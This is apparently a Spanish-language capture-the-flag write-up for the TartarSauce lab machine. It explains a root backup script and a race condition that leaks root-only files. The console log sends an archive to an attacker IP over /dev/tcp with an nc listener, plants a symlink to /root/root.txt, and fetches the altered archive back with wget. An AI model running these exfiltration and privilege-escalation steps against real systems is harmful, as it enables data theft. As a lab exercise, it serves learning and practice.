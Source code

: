 ```bash
#!/bin/bash

# Set Vars Here
comprimido=/var/tmp/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)

bdr="------------------------------------------------------"

# Borra todos los archivos ocultos de /var/tmp y todo lo que haya en /var/tmp/check
/bin/rm -rf /var/tmp/.* /var/tmp/check

# Comprime en "$comprimido" todo lo de /var/www/html (la web) y espera 30 segundos
/usr/bin/sudo -u onuma /bin/tar -zcvf $comprimido /var/www/html &
/bin/sleep 30

# Crea "/var/tmp/check" y descomprime ahí el comprimido (valga la redundancia)
/bin/mkdir /var/tmp/check
/bin/tar -zxvf $comprimido -C /var/tmp/check

# Compara el backup con el original
if [[ $( /usr/bin/diff -r /var/www/html /var/tmp/check/var/www/html ) ]]
then
    # La diferencia la mete en "/var/backups/onuma_backup_error.txt"
    /usr/bin/printf $"$bdr\n $(/bin/date)\n$bdr\n$comprimido\n" >> /var/backups/onuma_backup_error.txt
    integrity_chk >> /var/backups/onuma_backup_error.txt
    exit 2
else
    # Mueve el comprimido (si no se altera) a /var/backups/onuma-www-dev.bak y borra el backup
    /bin/mv $comprimido /var/backups/onuma-www-dev.bak
    /bin/rm -rf /var/tmp/check .*
    exit 0
fi
```

Es decir que si cogieramos el "/var/www/html" lo modificaramos y lo cambiaramos por el archivo que crea podríamos
leer la diferencia.

```console
onuma@TartarSauce:/dev/shm$ /bin/tar -zcvf ./comp /var/www/html
└─$ sudo nc -nlvp 6666 > comp
onuma@TartarSauce:/dev/shm$ cat < ./comp > /dev/tcp/10.10.14.16/6666
└─$ tar -zxvf comp.tar
└─$ cd var/www/html
└─$ sudo ln -s -f /root/root.txt ./index.html
└─$ sudo tar -zcvf comp.tar ./var/www/html
onuma@TartarSauce:/dev/shm$ wget http://10.10.14.16/comp.tar
onuma@TartarSauce:/dev/shm$ mv comp.tar .211c85239d70a4f6b968ee6ac90f321cb381dc0b
```




